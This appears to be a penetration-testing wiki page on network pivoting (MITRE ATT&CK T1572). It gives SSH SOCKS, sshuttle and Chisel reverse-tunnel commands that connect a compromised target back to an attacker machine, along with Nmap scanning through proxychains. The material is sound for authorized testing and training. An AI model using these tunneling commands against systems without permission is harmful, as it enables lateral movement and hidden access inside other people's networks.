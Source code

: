 ```yaml
---
description: MITRE ATT&CK, Command and Control, Technique T1572
---
```


# Pivoting

### Pivoting with SSH

```bash
# Pivoting with an SSH SOCKS proxy
ssh -D $port -q -C -N parzival@$ip

# Pivoting with SSHuttle 
## https://github.com/sshuttle/sshuttle
sshuttle -vr parzival@$ip $targetSubnet/24
```

{% embed url="https://t.co/7owIpuQiUy" %}

### Setting up a SOCKS Proxy with Chisel

1\. Download the [latest Chisel binaries](https://github.com/jpillora/chisel)

> Note, you will need a binary placed on your attacking system and one to be uploaded to the target system.

2\. On the attacking system:

```bash
./chisel server --socks5 --reverse -p 8000
```

3\. On the target system:&#x20;

```bash
.\chisel.exe client $attackerip:8000 R:socks
```

4\. Observe on the attacking system that the SOCKS5 connection has been successfully established.

#### Forwarding One Port with Chisel

1\. On the attacking system:

```bash
./chisel server 9000 -reverse
```

2\. On the target system:&#x20;

```bash
.\chisel client $attackerip:9000 R:$localport:127.0.0.1:$remoteport
```

#### Verification

The easiest way to verify if your `Chisel` connection was successful is to run the following command:&#x20;

```bash
ss -lnpt | grep $localport
```

#### Interaction

Ensure to remember that you will be interacting with `localhost` after forwarding a port. For example, by running&#x20;

```bash
nmap -sC -sV -p3306 -n localhost
```

### Nmap Scanning through Proxychains

When performing scans on the network through proxychains it is important to use the `-sT` flag. The following command demonstrates an Nmap command to use:

```bash
nmap -sT -Pn -n $port
```

{% hint style="warning" %}
You do not need this if utilizing SOCKS5 as it supports both ICMP and DNS.
{% endhint %}

### References

#### SSH

{% embed url="https://pswalia2u.medium.com/ssh-tunneling-port-forwarding-pivoting-socks-proxy-85fb7129912d" %}

{% embed url="https://anubissec.github.io/How-To-Pivot-Into-Target-Network-With-SSH/" %}

#### Chisel

{% embed url="https://ap3x.github.io/posts/pivoting-with-chisel" %}

{% embed url="https://0xdf.gitlab.io/2020/08/10/tunneling-with-chisel-and-ssf-update.html" %}
